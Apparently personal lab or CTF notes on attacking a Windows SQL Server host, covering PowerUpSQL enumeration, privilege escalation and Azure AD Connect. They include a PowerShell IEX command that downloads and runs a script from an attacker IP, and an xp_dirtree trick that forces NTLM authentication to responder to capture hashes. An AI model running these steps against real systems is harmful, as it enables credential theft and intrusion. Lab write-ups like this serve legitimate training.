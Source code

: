 Can view column names:

![[Pasted image 20241219223145.png]]

Let's automate this enumeration with #PowerUpSQL 

https://github.com/NetSPI/PowerUpSQL/tree/master

Put `PowerUpSQL.ps1` in directory being served up by python simple http server. 

Use IEX to retrieve the file because it's best for PowerShell?

`IEX(New-Object Net.WebClient).downloadString("http://10.10.14.2:8000/PowerUpSQL.ps1")`

Search for PowerUp SQL cheat sheet 

https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet

Discover local SQL server instances 

`Get-SQLInstanceLocal -Verbose`

![[Pasted image 20241219224559.png]]
We don't have permission to `Get-WmiObject`

Looking at SQL Server Priv Esc Cheats...

Audit for issues 

`Invoke-SQLAudit -Verbose`

Potential privilege escalation vector with #xp_dirtree

![[Pasted image 20241219225326.png]]
On `evil-winrm` shell run `sqlcmd -Q "xp_dirtree '\\10.10.14.2\test'`

On parrot with #responder run 

`sudo responder -I tun0`

Got NTLMv2 #passwordhash

![[Pasted image 20241219225735.png]]

This hash is not crackable because its a machine account (the username ends in $)


```
Googling Azure AD Privilege Escalation xpn 

https://blog.xpnsec.com/azuread-connect-for-redteam/

Azure AD Connect is a tool to synchronize password hashes between Azure Office 365 and On-Prem. 

PHS - Password Hash Synchronization 

Inside the Azure AD Sync database there is an mms_management_agent table with a private_configuration_xml. This xml has details on the MSQL user. 

```
